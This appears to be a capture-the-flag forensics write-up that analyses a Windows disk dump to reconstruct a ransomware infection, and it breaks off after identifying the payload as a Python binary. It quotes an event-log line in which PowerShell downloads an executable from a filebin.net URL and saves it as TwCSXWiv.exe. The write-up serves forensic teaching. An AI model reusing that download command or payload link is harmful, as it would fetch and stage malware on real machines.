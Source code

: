 `File Password : L1>l:p7!7h4[D23^iZ&)`

## Handout
+ [Primary Link](https://www.dropbox.com/scl/fi/rrru18br1a1c8nk4hownm/challf1le.zip?rlkey=x3kxgmhlmkhrfrrojiop43qd8&dl=0)
+ [Mirror Link](https://amritauniv-my.sharepoint.com/:u:/g/personal/inctfj_am_amrita_edu/EZdCwdTgK79No909OKYpHfEB1G_bTJYV007oWg8_FbdK3A?e=cO6E9R)
+ nc link


`Flag format: bi0sctf{...}`

## Solution:

![alt text](image-13.png)

We are given an `.ad1` file which is a dump taken from a windows machine. We can use `FTK Imager` to open the dump file and start our analysis.

Answering the questions...

### Question 1

Q1) What is the day and time that the infection was started ? 

Format : "yyyy:mm:dd_hh:mm"

Going through the files present in the system we can see that it was all modified at the time of infection answering our first question.

```
Answer Q1: 2024:02:24_00:37
```

### Question 2 

Q2) There are encrypted files, what is the algorithm used to encrypt them and what files store the decryption vectors?

Format : algorithm-used_filename

On parsing the evnt logs we can see that there was executable downloaded from `https://filebin.net/lfc6u585h3jmqfpp/ware`  saved as TwCSXWiv.exe and executed. 
```
105	105	2024-02-24 00:37:41	403	Info	PowerShell	Windows PowerShell	0	BruceWayne		Engine state is changed from Available to Stopped			HostApplication=PowerShell -Command iwr 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe
```

It should be the ransomware as its execution time and the time the all the files got encrypted was around the same time. We can search for the exe and extract it.

Upon doing `strings` on `TwCSXWiv.exe`, we can see that it is a **python3.10** binary.

```
>>> strings TwCSXWiv.exe | grep -i python
Py_SetPythonHome
Failed to get address for Py_SetPythonHome
Error loading Python DLL '%s'.
PYTHONUTF8
Invalid value for PYTHONUTF8=%s; disabling utf-8 mode!
Error detected starting Python VM.
bpython3.dll
bpython310.dll
6python310.dll
```
